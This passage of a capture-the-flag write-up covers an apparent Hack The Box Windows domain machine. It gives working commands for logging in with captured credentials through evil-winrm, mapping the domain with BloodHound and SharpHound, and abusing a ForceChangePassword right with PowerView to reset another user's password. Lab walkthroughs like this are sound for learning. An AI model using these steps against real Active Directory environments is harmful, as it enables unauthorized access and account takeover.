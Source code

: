 Now that we have creds for the user oliver we can grab a flag:

```bash
evil-winrm -i 10.129.176.11 -u oliver -p c1cdfun_d2434
```

![evil_result](images/Object11.png)

Now that we're in, we will use bloodhound to enumerate the domain and find some vectors for lateral movement or privelege escalation:

```bash
bloodhound-python -d object.htb -ns 10.129.176.11 -u oliver -p c1cdfun_d2434 -c ALL --zip
```

Since port 53 hasn't showed up in nmap scan we have to upload sharphound then download results and watch them in bloodhound:

```bash
upload SharpHound.exe
download 20250725023300_BloodHound.zip
```

```bash
sudo neo4j start
```

### Phase 3: Lateral Movement

Oliver user has the ForceChangePassword for the smith user. We will change his password and then since he has GenericWrite on maria user and we can do almost anything with her.

For that we will need to uplaod PowerView and set new password for the smith:

```PS
$pass = ConvertTo-SecureString 'Igothacked123!' -AsPlainText -Force 
Set-DomainUserPassword -Identity smith -AccountPassword $pass
```

Now login as smith:

```bash
evil-winrm -i 10.129.176.11 -u smith -p 'Igothacked123!'
```

I found this technique to abuse GenericWrite: https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html#genericwrite-on-user
